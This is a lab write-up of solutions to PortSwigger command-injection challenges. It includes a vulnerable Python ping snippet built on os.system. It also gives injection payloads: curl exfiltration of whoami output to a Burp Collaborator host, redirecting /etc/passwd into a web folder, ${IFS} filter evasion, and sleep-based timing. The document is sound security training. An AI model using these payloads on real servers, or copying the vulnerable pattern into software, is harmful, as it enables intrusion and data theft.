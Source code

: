 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

  ![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

  ![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
  ![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

  ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

  ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

  ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

   ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

  ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)

### Challenge 4

Challenge description: Blind OS command injection with output redirection

  ![2023-10-24_15-54](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ceedb1e0-ac2c-4910-8c84-b937bfa72b04)

- The main goal of the challeenge is to redirect uur output to the writable folder "/var/www/images"
- Intercept the feedback request and forward to the repeater

  ![2023-10-24_16-51](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0a43bfb-3541-4357-a4c3-a6e68249df21)

- Use this linux command to redirect whoami output to a file in /var/www/images

        ;touch${IFS}/var/www/images/resullt.txt;whoami${IFS}>${IFS}/var/www/images/result.txt
        ;cat${IFS}/etc/passwd>/var/www/images/result.txt

  ![2023-10-24_16-57](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a0a1c81c-e08b-49cb-98cb-516778b9b206)

- I noticed a particular link is vulnerable to Local File Include and be used to read local files

      https://0a880060030a479a803ac6e800e000e5.web-security-academy.net/image?filename=result.txt

- I redirected the output of /etc/passwd to result.txt and I got this output after visiting the link

  ![2023-10-24_17-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a3e4891c-aaf4-4c1d-8404-a36ac3aeb30a)

- I noticed that I could not redirect the output of 'whoami' but I was able to redirect the contents of /etc/passwd.Challenge solved

  ![2023-10-24_17-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a8ab9448-fbcb-4f90-99da-3ccfd8ad231d)

        
### Last Challenge
Challenge Description: Blind OS command injection with time delays

 ![2023-10-24_17-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7a38ed0f-12b1-4489-a7c8-72b419c31662)

- The goal of this challenge is to initiate a 10 seconds time delay.You can achieve it with bash 'sleep' function

       sleep 10
- I used the payload to initiate multiple time delay

      ;sleep${IFS}20;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10

   ![2023-10-24_17-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0449e534-5ff5-43f9-a63b-0972d8157c1c)

- Challenge solved

   ![2023-10-24_17-53](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/184d6931-a629-4d4d-aa58-51748d5ed3e7)

  

